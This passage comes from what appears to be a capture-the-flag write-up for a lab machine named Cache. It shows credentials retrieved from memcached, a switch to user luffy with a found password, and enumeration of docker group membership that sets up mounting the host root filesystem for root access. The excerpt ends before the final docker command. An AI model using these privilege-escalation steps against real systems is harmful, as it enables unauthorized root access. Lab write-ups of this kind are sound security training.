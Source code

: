     nothing
    END
    get account
    VALUE account 0 9
    afhj556uo
    END
    

I can quit with Ctrl+], and then enter `quit` at the prompt.

### su

`su - luffy` works with this password (0ne_p1ec3):

    
    
    ash@cache:~$ su - luffy
    Password: 
    luffy@cache:~$
    

## Priv: luffy –> root

### Enumeration

As luffy, I’ll notice I’m in the `docker` group:

    
    
    luffy@cache:~$ id
    uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
    

There are not containers currently running:

    
    
    luffy@cache:~$ docker ps
    CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES
    

There is an Ubuntu image on Cache:

    
    
    luffy@cache:~$ docker image ls
    REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
    ubuntu              latest              2ca708c1c9cc        7 months ago        64.2MB
    

### root Filesystem Access

Just like in [Olympus](/2018/09/22/htb-olympus.html#privesc-to-root-file-
system-access), being in the `docker` group is easy access to the filesystem
root. I’ll just start a container, and mount the root file system into it. The
following command will start that image as a container, with the root
filesystem of Cache mounted on `/mnt` inside the container, and drop me at a
Bash shell:

